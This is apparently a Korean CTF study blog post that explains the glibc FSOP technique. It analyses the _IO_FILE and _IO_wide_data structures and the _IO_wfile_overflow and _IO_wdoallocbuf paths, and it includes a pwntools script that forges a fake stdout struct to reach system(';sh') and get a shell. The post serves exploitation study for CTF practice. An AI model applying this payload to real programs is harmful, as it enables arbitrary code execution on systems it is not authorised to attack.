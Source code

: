 이 세상에 FSOP 문제는 널리고 널렸지만 영어를 못하는 나는 질 좋은 FSOP 학습 자료를 볼 기회가 별로 없었다.

최근에 FSOP 문제가 너무나 눈에 띄었다. 2024 CCE Quals에서도 FSOP만 알고 있었다면 2시간 만에 풀 수 있었다. 특수한 상황에서만이 아니라, 일반적인(드림핵 4~6렙) 문제 접근에 성공하고 익스할 때, 항상 뭔가 막히면 FSOP 때문이었다.

FSOP까지만 제대로 알아도 든든한 웹이나 암호학 해커와 함께라면 2인으로도 청소년부 본선은 쉽게 갈 것 같다.

dreamhack-invitational-quals 채널에서 값진 문장 하나를 발견했다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDhfMTEy/MDAxNzI4MzgyMTI0OTQx.c4dKOzCF48mwK2HPrs_Bn3XrTqRmaS9GWU4jeQCFl7Qg.im4cxWpwjrNbvScnCdsv17NQvkbVdoK9va1Rjv5upsMg.PNG/SE-96dbf2d6-529c-46e4-8fa2-0c672038f7d8.png?type=w1)


\_IO\_FILE 구조체와 \_IO\_wfile\_overflow에 대해 분석해보면 될 것 같다.

---

# \_IO\_wide\_data

glibc 버전이 높아지면서 vtable을 변조하면 IO_validate_vtable에 의해 걸리므로, \_wide\_vtable을 사용해야 한다.

\_IO\_FILE 구조체를 살펴보면

```C
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
struct _IO_wide_data *_wide_data;
```

여기에 \_IO\_wide\_data 가 있음을 알 수 있다.

```C
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```

여기서 \_wide\_vtable을 확인할 수 있다. 즉, fp->\_wide\_data->\_wide\_vtable을 변조할 수 있다면 항상 익스 가능하다.

---

# \_IO\_wfile\_overflow

이제 함수를 분석해보자.

```C
wint_t
_IO_wfile_overflow (f, wch)
     _IO_FILE *f;
     wint_t wch;
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
	}
      else
	{
	  ...
}
libc_hidden_def (_IO_wfile_overflow)
```

\_IO\_wdoallocbuf(f)를 실행시키고자 한다.

if (f->\_flags & \_IO\_NO\_WRITES) 를 만족하지 않아야 한다.

if ((f->\_flags & \_IO\_CURRENTLY\_PUTTING) == 0) 를 만족해야 한다.

if (f->\_wide\_data->\_IO\_write\_base == 0) 를 만족해야 한다.

모두 만족했다면, 해당 함수로 들어간다.

```C
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}
libc_hidden_def (_IO_wdoallocbuf)
```

\_IO\_WDOALLOCATE (fp)를 실행시키고자 한다.

if (fp->\_wid\e_data->\_IO\_buf\_base) 를 만족하지 않아야 한다.

if (!(fp->\_flags & \_IO\_UNBUFFERED)) 을 만족해야 한다. ( (fp->\_flags & \_IO\_UNBUFFERED) == 0 )

이 때 \_IO\_WDOALLOCATE은 \_IO\_wide\_data의 vtable을 참조하는 매크로이다. 따라서 FSOP가 성립한다.

문제에서 접근할 때, puts, write, scanf는 내부적으로 vtable의 함수를 호출하는데 이들을 잘 조작해서 \_IO\_wfile\_overflow가 호출되도록 하면 된다. \_IO\_wfile\_overflow는 \_IO\_validate\_vtable에 걸리지 않는 유효한 범위에 있으므로 가능하다.

한 줄로 정리하자면 fp -> \_wide\_data(변조) -> \_wide\_vtable(변조) -> one_gadget or system with fp = ';sh'

---

puts를 기준으로 정리해보자.

```python
def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,
                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,
                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,
                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,
                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,
                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00" * 0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

fake_fsop_struct = l.sym['_IO_2_1_stdout_']
FSOP = FSOP_struct(
    flags=u64(b"\x01\x01\x01\x01;sh\x00"),
    lock=stdout_lock,
    _wide_data=fake_fsop_struct - 0x10,
    _markers=l.symbols["system"],
    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),
    vtable=l.symbols["_IO_wfile_jumps"] - 0x20,
    _mode=0xFFFFFFFF,
)
```

puts는 내부적으로 \*vtable + 0x38에 있는 \_IO\_new\_file\_xsputn를 호출한다. 우리는 \*\_IO\_wfile\_jumps + 0x18에 있는 \_IO\_wfile\_overflow을 호출할 것이므로, vtable을 \*\_IO\_wfile\_jumps - 0x20으로 하면 offset을 맞출 수 있다.

\*\_wide\_data의 offset은 자유롭게 설정할 수 있지만, -0x10이 가장 무난해보인다. 이렇게 설정하면, \_wide\_vtable은 \_unused2의 마지막 부분에 있게 되므로, 이를 \*\_IO\_2\_1\_stdout\_ - 0x8로 바꾼다. 여기서의 offset 또한 자유이지만 가장 직관적인 것을 선택했다.

_IO_WDOALLOCATE는 *wide_vtable + 0x68을 참조하는 매크로이다. 따라서 위와 같이 FSOP를 진행했다면 *_IO_2_1_stdout_ + 0x60(- 0x8 + 0x68)인 _markers 부분을 참조하는 것이다. 여기에 system함수나, one_gadget을 넣어 쉘을 딸 수 있다.